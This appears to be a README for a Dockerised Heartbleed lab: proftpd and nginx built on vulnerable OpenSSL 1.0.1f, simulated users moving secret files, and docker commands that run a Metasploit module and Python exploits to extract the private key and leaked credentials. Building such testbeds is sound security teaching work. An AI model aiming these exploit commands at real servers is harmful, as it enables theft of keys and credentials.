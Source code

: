 Design
=====

Docker images:

1. proftpd-bleed - stawia serwer proftpd (przykladowy user: testuser/bordodeszato2009)
 korzystajacy z openssl 1.0.1f
2. ftp-bystander - co chwile loguje sie na proftpd-bleed i uploaduje plik credentials.php z danymi do bazy danych i kluczem do API platnosci24
3. nginx-bleed - stawia serwer nginx korzystający z openssl 1.0.1f, ktory umożliwia ściagniecie pliku confidential.txt zalogowanemu userowi (przykladowy user: testuser/bordodes)
4. http-bystander - co chwile loguje sie na nginx-bleed i sciaga confidential.txt
5. metasploit - uzywajac metasploita wyciaga privkey serwera
6. exploit - uzywajac naszego exploita w Pythonie stara sie znalezc w dumpie plik PHP lub string "CONFIDENTIAL"

Repo + docker hub
====

https://github.com/kacperzuk/heartbleed

FIXME: dockerhub, jak juz bedzie

Usage
======

Run vulnerable FTP server
```
docker run -p 2121:21 -p 30000-30009:30000-30009 -it --rm --name=proftpd-bleed kacperzuk/heartbleed-testbed-proftpd-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:2121 -starttls ftp
$ curl -k --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
$ curl -vk --ftp-ssl ftp://localhost:2121/ --user testuser:bordodeszato2009
```

Run a fake-user that uploads credentials.php to server few times a second:
```
docker run --link proftpd-bleed:ftpd -it --rm --name=ftp-bystander kacperzuk/heartbleed-testbed-ftp-bystander
```

Run exploit from metasploit (it extracts private key and dumps it into /tmp/msf4/loot):
```
docker run --link proftpd-bleed:ftpd --rm -it -v /tmp/msf4:/root/.msf4 kacperzuk/heartbleed-testbed-metasploit /usr/local/bin/init.sh ftp-hb.rc
```

Run authtls-heartbleed.py exploit (it tries to extract PHP file, but won't succeed ever because proftpd is forking):
```
docker run --link proftpd-bleed:ftpd --rm -it kacperzuk/heartbleed-testbed-exploit python3 authtls-heartbleed.py ftpd 21
```

You can stop all containers.

Run vulnerable HTTPS server
```
docker run -p 4443:443 -it --rm --name=nginx-bleed kacperzuk/heartbleed-testbed-nginx-bleed
```

Test connection:
```
$ openssl s_client -connect localhost:4443
$ curl -k https://localhost:4443/confidential.txt --user testuser:bordodes
$ curl -vk https://localhost:4443/confidential.txt --user testuser:bordodes
```

Run a fake-user that uploads credentials.php to server few times a second:
```
docker run --link nginx-bleed:httpd -it --rm --name=http-bystander kacperzuk/heartbleed-testbed-http-bystander
```

Run exploit from metasploit (it extracts private key):
```
docker run --link nginx-bleed:httpd --rm -it -v /tmp/msf4:/root/.msf4 kacperzuk/heartbleed-testbed-metasploit /usr/local/bin/init.sh http-hb.rc
```

Run https-heartbleed.py exploit (nginx isn't forking, so it should find the confidential file):
```
docker run --link nginx-bleed:httpd --rm -it kacperzuk/heartbleed-testbed-exploit python3 https-heartbleed.py httpd 443
```
